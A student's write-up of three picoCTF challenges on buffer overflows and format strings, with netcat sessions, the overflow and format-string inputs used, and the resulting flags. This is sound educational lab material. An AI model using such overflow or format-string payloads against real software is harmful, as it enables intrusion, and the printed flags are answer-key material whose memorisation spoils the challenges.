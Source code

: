 # 1. Buffer Overflow 0
> Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here.

Additional details will be available after launching your challenge instance.

## Solution:

- Looking at the code, I saw that the input was being copied to a string of max size 16. To break the program, I just had to input a string have more than 16 characters.
```
sid@sidsAsusZenbook:~/cryptoTP$ nc saturn.picoctf.net 62468
Input: hi
The program will exit now
ok
sid@sidsAsusZenbook:~/cryptoTP$ nc saturn.picoctf.net 62468
Input: dfjfdjfdnkjfnkdjndkjfndfkgjnfdkjnlsfdgkjndfjknckzljdflkjfdnkjnlkcjndafjlfddsflakjdbsfkjlbnflkdgjfkldchjkndflkdjgfkdfldsclkfkdnkcjdandjkfbdjkfnslrkfjhdfslihdfgjkcnd
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

## Flag:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

## Concepts learnt:
- Buffers

## Notes:

- After completing the challenge, I ran it a few times again to see that a string with 17 characters does not print the flag. I don't understand how many characters exactly are needed to overflow the buffer.

## Resources:

- Learnt about buffers [here.](https://ctf101.org/binary-exploitation/what-are-buffers/)

<br><br><br>
***
<br><br><br>


# 2. Format String 0

> Can you use your knowledge of format strings to make the customers happy? Download the binary here. Download the source here. Connect with the challenge instance here: nc mimas.picoctf.net 59043

## Solution:

- Probably the easiest challenge till now. For the first choice, %114d is a valid format specifier in C. After examining the code, I found out that I just needed the string length to exceed 64. `%114d` fill in any garbage value of 114 digits in length. For the second choice, the text talks about _breaking_ the shop. `Cla%sic_Che%s%steak` will break the program as there are no values passed to it in the printf statement.

```
sid@sidsAsusZenbook:~/cryptoTP$ nc mimas.picoctf.net 62362
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}

```

## Flag:

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}
```

## Concepts learnt:

- Format specifiers in C

## Notes:

- This could've been solved by a simply hit and trial as well.
- I don't understand why the binary for the code was provided.

## Resources:
- [This](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/) was provided in the PDF and helped me to understand what the challenge could be about.

  
<br><br><br>
***
<br><br><br>


# 3. Clutter Over-flow

> Clutter, clutter everywhere and not a byte to use. nc mars.picoctf.net 31890

## Solution:
- I read the source code and found out that the code variable was being compared to the "GOAL", hex value 0xdeadbeef.
- On further understanding the code, I realised that I was typing out the code variable after 256+8 characters of input.
- Since the size of the input variable was set to 256, doing trial and error after that made me realise the above.
- After finding this out, I had to print the hex value of GOAL in the string. This could be done through escape sequences.
- I then ran the following code and got the flag.
  
```
echo -e 'hruudmmchxkearjpcbctzmnqihawizabapehwhfamvvbcqttwhdzjptzdztbfffrwwctcypyhrkkegkmpftmvrtxcviydufwibbdhycwgcheifvqdxtruudctpxykubrjjaezaehacwketpnzitwrtnactnxvwtagvidpxdrndtxzuieckdkedhunnpqytkexcpamnrpbzqygfinwxqdifkgbubytpffnarujfamzekkabtqdjnrnznqheufdyrkqwertyui\xef\xbe\xad\xde' | nc mars.picoctf.net 31890
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""  
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
sid@sidsAsusZenbook:~/cryptoTP$ 
```

## Flag:

```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Concepts learnt:

- Escape sequences for hex characters
- Buffer lengths
- echo usage, `echo -e` considers escape sequences\
- For hex `0xdeadbeef`, the byte-sequence is `\xef\xbe\xad\xde`
  
## Notes:

- A major pain point was on figuring out how to enter the escape sequences rather than figuring out the length of the buffer.

## Resources:

- Got a string of 256 characters [here](https://pinetools.com/random-string-generator) instead of typing it out.
- Learnt a bit about buffer functions [here.](https://www.tutorialspoint.com/c_standard_library/c_function_setbuf.htm)

